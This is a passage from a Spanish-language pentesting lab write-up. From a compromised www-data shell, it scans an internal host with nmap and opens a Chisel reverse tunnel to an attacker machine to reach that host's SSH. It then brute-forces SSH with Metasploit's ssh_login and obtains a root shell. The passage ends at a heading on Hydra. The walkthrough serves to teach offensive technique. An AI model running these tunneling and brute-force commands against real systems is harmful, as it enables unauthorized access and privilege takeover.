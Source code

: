 
### Remote PortForwarding

Otra forma sería realizar un redireccionamiento de puertos en caso conozcamos el puerto abierto.  
Chisel es la herramienta ideal ya que no necesitamos tener abierto el servicio `ssh` en el equipo victima.  

```
www-data@xubuntu:/tmp/test$ nmap -p- --open --min-rate 5000 -n 172.16.50.222

Starting Nmap 7.01 ( https://nmap.org ) at 2021-09-02 18:27 UTC
Nmap scan report for 172.16.50.222
Host is up (0.00039s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3307/tcp open  opsession-prxy
```

Chisel se ejcutaria de la siguiente manera:

Desde la máquina atacante

```
❯ chisel server -p 8888 --reverse
2021/09/02 13:34:52 server: Reverse tunnelling enabled
2021/09/02 13:34:52 server: Fingerprint OJ97k1wOGZ42i0TocGiyDmHqdj/PcviNbzhngxchJSM=
2021/09/02 13:34:52 server: Listening on http://0.0.0.0:8888
2021/09/02 13:34:56 server: session#1: Client version (1.7.6) differs from server version (0.0.0-src)
2021/09/02 13:34:56 server: session#1: tun: proxy#R:2222=>172.16.50.222:22: Listening
```

Desde la máquina victima

```
www-data@xubuntu:/tmp/test$ ./chisel client 10.13.37.10:8888 R:2222:172.16.50.222:22
2021/09/02 18:34:53 client: Connecting to ws://10.13.37.10:8888
2021/09/02 18:34:54 client: Connected (Latency 72.689838ms)
```

## Fuerza bruta por SSH

### Metasploit ssh_login

```
msf6 auxiliary(scanner/ssh/ssh_login) > run                                                    

[*] 172.16.50.222:22 - Starting bruteforce                                                                                                                                                [...]    
[-] 172.16.50.222:22 - Failed: '# minimal list of very common usernames :admin'                
[-] 172.16.50.222:22 - Failed: '# minimal list of very common usernames :support'                                                      
[-] 172.16.50.222:22 - Failed: '# minimal list of very common usernames :abuse'                                                        
[-] 172.16.50.222:22 - Failed: '# minimal list of very common usernames :postmaster'                                                   
[+] 172.16.50.222:22 - Success: 'root:root' 'uid=0(root) gid=0(root) groups=0(root) Linux xubuntu 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 2 opened (10.13.37.10-172.16.37.234:0 -> 172.16.50.222:22) at 2021-09-01 22:17:31 -0500                                                                        
```
### Fuerza bruta con Hydra

